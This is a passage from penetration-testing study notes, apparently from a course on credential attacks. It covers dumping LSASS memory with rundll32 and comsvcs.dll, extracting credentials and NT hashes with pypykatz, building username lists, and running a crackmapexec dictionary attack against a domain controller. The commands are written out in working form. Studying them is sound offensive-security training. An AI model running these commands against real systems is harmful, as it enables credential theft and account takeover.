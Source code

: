       # with elevated PowerShell session
      rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
      # where 672 is PID of lsass

      # modern AV tools can recognise this as malicious
      ```

  * after moving the dump file to attacker machine, we can use ```pypykatz``` (```Mimikatz``` but in Python, so that it can be run on Linux) to extract creds:

    ```sh
    pypykatz lsa minidump /home/peter/Documents/lsass.dmp
    # lsa refers to LSASS being a subset of LSA
    # data source is a minidump file

    # output from dump includes sections such as MSV, WDIGEST, Kerberos, and DPAPI
    # we can take the NT hashes from these and crack with hashcat
    ```

* Attacking Active Directory & NTDS.dit:

  * dictionary attacks against AD accounts:

    * for usernames, we can consider various username conventions like ```[first-initial][last-name]```, ```[first-initial][middle-initial][last-name]```, ```[first-name][last-name]```, ```[first-name].[last-name]```, ```[last-name].[first-name]``` or even a 'nickname'; email address structure can also show employee username - based on this we can create a custom list of usernames using a tool like [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) as well:

      ```sh
      ./username-anarchy -i names.txt
      ```

    * we can then launch a dictionary attack against target DC:

      ```sh
      crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
      # as account lockout policy is not enforced by default
      # we can try this attack
      ```
  